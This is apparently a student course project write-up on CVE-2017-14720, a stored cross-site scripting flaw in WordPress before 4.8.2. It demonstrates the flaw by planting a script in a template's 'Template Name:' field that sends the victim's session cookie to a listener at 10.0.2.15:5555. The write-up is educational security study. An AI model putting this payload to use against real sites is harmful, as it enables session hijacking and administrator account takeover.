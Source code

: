 # Project
Jo Eun Kim\
ICSI 424 - 0001\
Amir Masoumzadeh\
2020-12-05

## Vulnerability #1: Cross Site Scripting (XSS) - simple one
### Brief Description of vulnerability
**CVE-2017-14720**\
Publish Date : 2017-09-23\
Vulnerable Wordpress Versions : Before 4.8.2

WordPress allowed a Cross-Site scripting attack in the template list view via a crafted template name. [(reference)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2017-14720)

Before WordPress 4.8.2, $file_description and $description from wp-admin/theme-editor.php were not filtering the name of the template. It allowed an attacker to execute an XSS attack by placing XSS payload after "Template Name:".

### Significance
A lot of web development frameworks are using template engines. People benefits from the template engines are easily exposed to vulnerabilities. Cookies can indirectly become the cause of malicious activities involving victim's data and can be used to harvest personal information. For example, session ID can be used to login with administrative privileges. Attacker is able to bypass the security by placing the stolen seesion ID cookie, more easily by using a plugin in Firefox, and changing the cookie when he/she request it to get into a webpage with administrative priviliges the user, who's actually logged in there at the same time, holds.

### Design of Attack
Using WordPress 4.8

**Steal Session Cookie** by distributing a malicious template.\
As an attacker, we place a XSS payload in a template file. If we distribute the template file or theme consists of the file, we can have arbitary victims who use the template or the theme we distributed. The victim also can distribute the malicious template file without consent or the perception of it, which can results in more victims. We, attacker, can steal the victim's session cookie information when the victim tries to edit themes becuase the "custom-header.php" is loaded once the victim accesses to [Appearance > Editor].

### Demonstration of Attack
1. Selected a file we want to edit from [Appearance > Editor]
- I chose "custom-header.php" because it is loaded once the victim accesses to [Appearance > Editor], not the specific file.
![steal cookie-before](/V1%20wordpress%204.8%20version/steal%20cookie-before.PNG?raw=true "steal cookie-before")
2. Inserted XSS payload after "Template Name:", updated the file
- `/* Template Name: <script>new Image().src="http://10.0.2.15:5555?output_back_compate="+document.cookie;</script> */`
![steal cookie-after](/V1%20wordpress%204.8%20version/steal%20cookie-after.PNG?raw=true "steal cookie-after")
3. Listening the port 5555, was able to steal session cookie information once the page [Appearance > Editor] was loaded
- It does not matter which file the victim is editing. It does not have to be the malicious template (was originally back-compat.php). The JavaScript code is executed once the page [Appearance > Editor] is loaded. Therfore, the victim is being vulnerable while the malicious template is existing in the directory.
![steal cookie-result](/V1%20wordpress%204.8%20version/steal%20cookie-result.PNG?raw=true "steal cookie-result")
